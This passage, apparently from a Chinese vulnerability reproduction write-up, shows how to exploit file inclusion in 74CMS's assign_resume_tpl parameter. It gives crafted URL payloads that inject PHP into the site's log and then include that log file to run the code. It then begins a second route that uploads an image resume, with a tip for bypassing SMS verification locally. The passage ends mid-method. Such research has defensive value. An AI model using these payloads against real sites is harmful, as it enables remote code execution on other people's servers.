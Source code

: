 04

漏洞复现

由上述分析可知，我们只需向 assign_resume_tpl 中的 tpl 参数传入我们现存的文件路径，74CMS 经过安全处理后就会对其进行文件包含。

具体复现漏洞所需条件：

1.  上传包含需要执行的命令和模板标签的文件
    
2.  获取文件的位置
    
3.  精心构造 Payload 去包含相应文件
    

### **1. 通过日志包含**

我们都知道 74CMS 的日志默认保存位置为 data/Runtime/Logs/Home/Y_M_D.log

那么我们可以通过先让日志中产生我们想执行的 php 代码 + 模板标签，后通过请求去包含相关日志文件

#### step1 通过非法请求产生日志

当我们直接用 ThinkPHP 框架的传参方法 m=common&c=base&a=assign_resume_tpl&variable=1&tpl=1 会发现 common 模块是不可访问的，而当传递 m=home&a=assign_resume_tpl 时经过反射调用最终会调用到我们想要调用的方法。

```
74cms.net/index.php?m=home&a=assign_resume_tpl&variable=1&tpl=<?php phpinfo(); ob_flush();?>/r/n<qsCMS/company_show 列表名="info"企业id="$_GET['id']"/> 

```

Ps：后半部分合法的模板标签可以在 /Application/Home/View/tpl_company/default/com_jobs_list.html 中看到

接着我们可以看到后台已经产生了相应的日志文件

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6s0gib9Yq2dPlIuE5CuO65iacliaLN0OnPbIib3csV2SMAGUoqqXqJcCLDHkpSHiaiaOTg9mA1gsXQgic0g/640?wx_fmt=png)

#### step2 通过非法请求包含日志

我们将日志文件的路径传入 tpl 参数，即可让页面包含此文件执行我们想要执行的代码

```
74cms.net/index.php?m=home&a=assign_resume_tpl&variable=1&tpl=./data/Runtime/Logs/Home/21_01_20.log

```

执行成功！

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6s0gib9Yq2dPlIuE5CuO65iaKQKMmZvvibm95XYhRIMRgcJzR4R1okp4pOnHK9YMJrQTbUjZKlZGs5Q/640?wx_fmt=png)

### **2. 通过图片简历上传包**

#### step1 账号注册

在简历更新板块可以上传图片且获取其上传路径，但是需要我们先注册一个账号

如果是在本地虚拟环境搭建 74CMS 系统，会发现因为 api 校验不通过而无法获取手机验证码注册，但可以通过注释 Application\Common\Common\function.php 的 verify_mobile 中的代码取消验证码验证
